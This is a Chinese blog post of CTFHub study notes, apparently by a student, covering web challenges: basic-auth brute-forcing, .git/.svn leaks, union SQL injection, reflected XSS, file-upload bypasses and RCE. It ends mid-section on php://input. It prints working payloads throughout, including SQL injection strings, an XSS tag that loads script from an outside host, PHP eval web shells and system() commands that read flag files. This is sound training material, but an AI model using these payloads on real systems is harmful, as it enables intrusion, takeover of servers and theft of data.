<!--yml
category: 未分类
date: 2022-04-26 14:47:54
-->

# ctfhub技能书+历年真题学习笔记（详解）_Yn8rt的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_50589021/article/details/115316791](https://blog.csdn.net/qq_50589021/article/details/115316791)

# Web

## Web前置技能

### HTTP协议

#### 请求方式

```
题目：

HTTP Method is GET
Use CTF**B Method, I will give you flag.
Hint: If you got 「HTTP Method Not Allowed」 Error, you should request index.php. 
```

意思就是你是get请求，你把这个请求换成CTFHUB就行

所以抓包直接一把梭



#### 302跳转

题目：

```
No Flag here!
Give me Flag 
```

点击发现没有跳转

二话不说，抓包一把梭了



这里状态码变为了302说明进行了重定向

#### Cookie

直接抓包，本来admin=0，然后给admin赋值=1就行了

#### 基础认证

得到提示 do u konw admin ?，于是猜测账号是 admin , 那么接下来就只需要爆破密码了。注意看到 HTTP 请求头部的 Authorization 字段，后面的YWFhOmjiYg==用base64 解码后是 aaa:bbb，也就是我们之前输入的账号:密码。

使用 BurpSuite 进行基础认证爆破

（1）将报文发送到 Intruder, 将 Basic后面 base64部分添加为payload position



（2）在 Payloads选项卡下，选择 Payload Type为SimpleList,然后在 Payload Options 中点击 load 加载密码字典



（3）Payload Processing -> Add-> Add Prefix（添加前缀）-> 输入 admin:

Payload Processing -> Add-> Encode（添加一个编码方式）-> 选择 Base64 Encode



（4）Payload Encode 取消勾选的 URL-encode, 不然你会看到base64之后的=会被转成 %3d ，你就算爆破到天荒地老也不会出来



（5）Start Attack ，然后按 Length 排序，并看到状态码出现200的，即爆破成功





查看 Response，得到flag



有点操作水平。。。。

#### 响应包源码

等游戏结束f12查看源码即可

## 信息泄露



### 目录遍历

http://challenge-62869800fbc1a5d3.sandbox.ctfhub.com:10080/flag_in_here/3/4/flag.txt

### PHPINFO

http://challenge-8833e0a8156bbfbb.sandbox.ctfhub.com:10080/phpinfo.php

ctrl+f一把梭



ctfhub{eff7ead587e67aab8af40775}

### 备份文件下载

#### 网站源码

当开发人员在线上环境中对源代码进行了备份操作，并且将备份文件放在了 web 目录下，就会引起网站源码泄露。

可能有点用的提示：

```
#### 常见的网站源码备份文件后缀
------
- tar
- tar.gz
- zip
- rar
#### 常见的网站源码备份文件名
------
- web
- website
- backup
- back
- www
- wwwroot
- temp 
```

http://challenge-6ede861cbefdfbaf.sandbox.ctfhub.com:10080/www.zip

```
\#!usr/bin/env python
#_*_ coding:utf-8 _*_
import requests 
url="http://challenge-9936840b90db7048.sandbox.ctfhub.com:10080/"
list1=['web', 'website', 'backup', 'back', 'www', 'wwwroot', 'temp'] 
list2=['tar', 'tar.gz', 'zip', 'rar']
for i in list1: 
 for j in list2:      
   url_f=url+i+"."+j 
   r=requests.get(url_f)     
   if(r.status_code == 200):         
   print(url_f) 
```

对没有错，就是通过这个脚本来判断是哪个页面为200





http://challenge-6ede861cbefdfbaf.sandbox.ctfhub.com:10080/flag_33916625.txt

完事！

#### bak文件

介绍：当开发人员在线上环境中对源代码进行了备份操作，并且将备份文件放在了 web 目录下，就会引起网站源码泄露。

针对index.php.bak文件

输入下载完以后改为.txt格式打开直接一把梭

#### vim缓存

介绍：当开发人员在线上环境中使用 vim 编辑器，在使用过程中会留下 vim 编辑器缓存，当vim异常退出时，缓存会一直留在服务器上，引起网站源码泄露。

.index.php.swp

这里注意index前面有个点

然后将swp改为txt打开

#### .DS_Store

介绍：.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。

下载完以后用.md文件格式打开

18c26ec34f6edafc85a7cd5e20853f58.txt发现这个文件

http://challenge-f8108aa66ac9b7ac.sandbox.ctfhub.com:10080/18c26ec34f6edafc85a7cd5e20853f58.txt一把梭

### Git泄露

#### Log

介绍：当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。

先用dirsearch.py进行扫描

python3 dirsearch.py -u https://github.com/maurosoria/dirsearch -e*

```
-u 指定网址
 -e 指定网站语言#例如-e php，zip，这里-e*是所有
 -t 指定线程
 -w 指定字典
 -r 递归目录（跑出目录后，继续跑目录下面的目录）
 --random-agents 使用随机UA(默认在db/uesr-agents.txt中，可以自己添加)
 -x 排除指定状态码
 -s 置请求之间的延时(秒) 
```

然后用githack脚本跑

```
python GitHack.py http://challenge-bf6c3305d834ed77.sandbox.ctfhub.com:10080/.git 
```

跑完以后去list目录去看看

进入所下载的文件里面

```
git log#使用git log命令查看本地的所有提交 
```

得：

```
git reset --hard ea27539d5ad2aa769ee2375400a0a5afc39faab0#彻底回退到某个版本，本地的源码也会变为上一个版本的内容，撤销的commit中所包含的更改被冲掉；
ls
cat 241282368416724.txt 
```

得到flag

#### stash（储藏）

理解：

当你要修改或者变更文件的时候，可以通过这个git statsh命令将其暂时保存到一个堆栈中，就好像是写到一半的文件突然不写了，你要去写另一个文件，这样为了避免这个文件消失，你就要用这个命令将他进行一下储存，然后办完手头的事情后，你就可以继续通过存到栈里面的文件继续进行之前未完成的编辑，而这个题目，就是针对查找通过stash命令存到栈里面的文件

和上一题一样

```
git log//查看历史记录
git stash pop
ls
cat 13456789.txt
说明：
$git stash                 ／／把本地修改并且未提交的内容，存储到本地栈中的栈顶。
$do some work        ／／此时你可以去切换分支或者pull最新代码
$git stash pop          ／／此时你可以把你刚才stash到本地栈中的代码pop到本地 
```

#### index

启动githack

```
python GitHack.py http://challenge-3aa10bcada98b68b.sandbox.ctfhub.com:10080/.git 
```

将他的git文件clone到本地然后查看就直接一把



### SVN泄露

引子：

当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞。

#### 去网上了解一下svn漏洞：

##### 什么是SVN?

SVN是subversion的缩写，是一个开放源代码的版本控制系统，通过采用分支管理系统的高效管理，简而言之就是用于多个人共同开发同一个项目，实现共享资源，实现最终集中式的管理。

##### 漏洞成因：

在服务器上布署代码时。如果是使用 svn checkout 功能来更新代码，而没有配置好目录访问权限，则会存在此漏洞。黑客利用此漏洞，可以下载整套网站的源代码。
在使用SVN管理本地代码过程中，会自动生成一个隐藏文件夹，其中包含重要的源代码信息。但一些网站管理员在发布代码时，不愿意使用‘导出’功能，而是直接复制代码文件夹到WEB服务器上，这就使隐藏文件夹被暴露于外网环境，这使得渗透工程师可以借助其中包含版本信息追踪的网站文件，逐步摸清站点结构。

用到的工具：dvcs-ripper

用dirsearch跑了一下.svn发现确实有，可能方法不对，跑都跑不完

然后开始回归正常操作：

1.下载所需要的工具：

```
git clone https://github.com/kost/dvcs-ripper /svn 
```

我这里是将它下载到svn目录里面

2.使用

```
perl rip-svn.pl -u http://challenge-30d239a5f2b26f23.sandbox.ctfhub.com:10080/.svn/ 
```

补充：需要注意的是，.svn是隐藏文件，在linux下必须ls -al才能看到。
3.根据题目的提示，Flag 在服务端旧版本的源代码中。
注意那个tree中的pristine，里面一般存储的是代码的历史版本。我们直接进入目录，然后读取文件就可以得到flag了

问题：该软件不能正常使用，需要配置组件（暂未解决）

## 密码口令

### 弱口令

我的密码是admin123



### 默认口令

这个题看很特别，看别人wp上说：是通过网上搜索eyou的默认口令来进入网站

https://blog.csdn.net/weixin_45785288/article/details/108274723

考查的信息收集能力

## SQL注入

### 整数型注入

#### 1.检测注入点

输入1得到Data: ctfhub输入2得到Data：skill输入3没有回显，输入1 or 1=1也会显示1的内容这是直接显示出来了？

#### 2.构造注入语句

##### a.得到数据库

-1 union select 1,2

得到回显Data: 2

-1 union select 1,3

得到回显Data: 3

-1 union select 1,database()

回显Data: sqli（得到数据库）

##### b.得到数据库里面的表

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=“sqli”

得到回显：

Data: news,flag

##### c.爆列名

-1 union select 1,group_concat(column_name) from information_schema.columns where table_name=“flag”

得到回显：

Data: flag

##### d.爆字段

-1 union select 1,group_concat(flag) from flag

得到回显：

Data: ctfhub{3040c5c414ba645535376218}

### 字符型注入

就像整数型一样，但是区别于有单引号需要自己构造单引号语句来让其失效

#### 1.查看数据库的列数

1’ order by 3 – ‘发现报错，那么改为2 ：1’ order by 2 – '得到回显

说明有两列

#### 2.联合查询

##### a.爆库名

这是获取所有数据库的语句：

’ union select 1,group_concat(schema_name) from information_schema.schemata – ’

发现information_schema是一个数据库

’ union select 1,database()#

得到了sqli

##### b.爆表

’ union select table_schema, group_concat(table_name) from information_schema.tables where table_schema=‘sqli’ – ’

##### c.爆列名

-1’ union select 1,group_concat(column_name) from information_schema.columns where table_name=‘flag’#

##### d.爆字段

’ union select 1,group_concat(flag) from flag – ’

## XSS

### 反射型

利用xss platform平台创建一个xss反射型的脚本

```
</tExtArEa>'"><sCRiPt sRC=//xs.sb/wnbP></sCrIpT> 
```

没什么好记的操作很简单直接上大佬的wp

https://blog.csdn.net/weixin_43486981/article/details/107974878

## 文件上传

### 无验证

一句话，一把梭

```
<?php @eval($_POST['shell']);?> 
```





### 前端验证

与无验证的区别在于对于上传的文件格式的后缀有规定

所以：shell.php.png 安排只要保证能传上去就行了，同时抓包去掉.png保证蚁剑可以识别

然后重复一句话，一把梭操作即可

#### .htaccess

介绍：

.htaccess文件(或者"分布式配置文件"）提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。

htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

简单来说，就是我上传了一个.htaccess文件到服务器，那么服务器之后就会将特定格式的文件以php格式解析。

理解：

看到这，明白了，就好比你即使上传的是png文件，但是通过htaccess文件的解析，你依然是php文件

大佬的代码：

//方法一 SetHandler application/x-httpd-php //所有的文件当做php文件来解析

//方法二 AddType application/x-httpd-php .png //.png文件当作php文件解析

上传顺序：

先制作.htaccess再来shell.png（毕竟进行了前端验证）

1.AddType application/x-httpd-php .png

2.<?php @eval($_POST['666']);?>一句话，一把梭

#### MIME绕过

引子：

MIME (Multipurpose Internet Mail Extensions) 是描述消息内容类型的因特网标准。

MIME 消息能包含文本、图像、音频、视频以及其他应用程序专用的数据。

浏览器通常使用MIME类型（而不是文件扩展名）来确定如何处理URL，因此Web服务器在响应头中添加正确的MIME类型非常重要。如果配置不正确，浏览器可能会曲解文件内容，网站将无法正常工作，并且下载的文件也会被错误处理。

通过介绍可以看出来，这种类型的过滤不是针对文件后缀名，而是根据http响应头信息，所以一定要通过抓包进行分析：

如果直接传的话会出现下面结果：



但是如果将：

Content-Type: application/octet-stream

改为：

Content-Type: image/png

就会显示上传成功

然后一句话，一把梭

##### 00截断

引子:

**%00截断的两个条件**

*   php < 5.3.4
*   magic_quotes_gpc = off

木马的文件格式为：phpwebshell.php%00.jpg

但是这个题需要截断的地方不是从文件的后缀进行截断，而是在响应后信息进行修改

**分析源码：**

```
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
} 
```

$_FILES 解释（搬自php手册）
$_FILES 数组内容如下:

$_FILES【‘myFile’][‘name’] 客户端文件的原名称。

$_FILES【‘myFile’][‘type’] 文件的 MIME 类型，需要浏览器提供该信息的支持，例如"image/gif"。

$_FILES【‘myFile’][‘size’] 已上传文件的大小，单位为字节。

$_FILES【‘myFile’][‘tmp_name’] 文件被上传后在服务端储存的临时文件名，一般是系统默认。可以在 php.ini 的 upload_tmp_dir 指定，但 用 putenv() 函数设置是不起作用的。

$_FILES【‘myFile’][‘error’] 和该文件上传相关的错误代码。[‘error’] 是在 PHP 4.2.0 版本中增加的。下面是它的说明：(它们在 PHP 4.3.0 之后变成了 PHP 常量。)

basename() 函数：返回路径中的文件名部分。
$_name 是上传的文件名加后缀
$_ext 得到的就是后缀名
重点就在 $des这个变量
得到的完整路径是 GET[‘road’]+随机数+日期加前面获得的后缀名看到这里基本可看出来，如果直接上传的话，文件是会被重新命名的，所以这里就有一个办法就是在



这里为自己拟定一个文件名字，并且使用00截断后面自动生成的信息，这样就可以防止你上传的文件被认定为临时文件了

可以看到之前上传的文件都是被认定为临时文件：



最后上传的路径为/uoload/1.php然后一句话，一把梭

##### 双写后缀

直接不做修改的上传发现：



php没了！！！

所以这里关于绕过，而且明显告诉是双写，那就：

shell.pphphp

成功了，一把梭（关于怎么绕过要自己不断尝试，即可）

#### 文件头检查

都说是文件头检查了，那肯定就是抓包啊

将文件改为这个

Content-Type: image/png

但是说我文件错误，是文件错误，那么就准备改文件，

```
GIF89a
<?php @eval($_POST['666']);?> 
```

把随便一个图片用hex打开发现他头部信息就是这个GIF89a

然后继续上传准备一把梭



success

## RCE

### eval执行

题目：

```
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?> 
```

*   eval():该函数可以把字符串作为PHP代码执行
*   $_REQUEST[’’]:和GET和POST类似，不过反应速度比较慢

大体意思是：判断cmd是否被设置，若cmd被赋值，则执行如下语句，否则就继续显示以上代码。
方法一：

eval($_REQUEST[“cmd”]);

通过蚁剑直接连接，密码cmd

方法二：

构造URL：?cmd=system(“ls”);

发现了index.php

继续构造?cmd=system(“cd /;ls”);

得到：bin boot dev etc flag_30765 home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

构造：

?cmd=system(“cd /;cat flag_30765”);

success

### 文件包含

```
<?php
// 关闭错误报告
error_reporting(0);
if (isset($_GET['file'])) {
//strpos — 查找字符串首次出现的位置
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?> 
```

函数解释：

```
#函数查找字符串在另一字符串中第一次出现的位置（区分大小写） 
strpos("You love php, I love php too!","php"); 
```

发现一个shell

```
<?php eval($_REQUEST['ctfhub']);?>
预定义的 $_REQUEST 变量包含了 $_GET、$_POST 和 $_COOKIE 的内容

$_REQUEST 变量可用来收集通过 GET 和 POST 方法发送的表单数据

$_REQUEST 变量既可以收集GET方法发送的数据，也可以接受POST方法接受的数据 
```

直接蚁剑吧，发现是txt文件，没办法连接

因为题目给出：

i have a [shell](shell.txt), how to use it ?

所以构造参数：

http://challenge-799c3c5c6ecef465.sandbox.ctfhub.com:10080/?file=shell.txt

然后使用hackbar的postdata传参

ctfhub=system(‘ls’);

ctfhub=system(‘ls /’);

ctfhub=system(‘cat /flag’);

得到flag

#### php://input

题型：php伪协议

```
php://input特点如下:

1）、Coentent-Type仅在取值为application/x-www-data-urlencoded和multipart/form-data两种情况下，PHP才会将http请求数据包中相应的数据填入全局变量$_POST

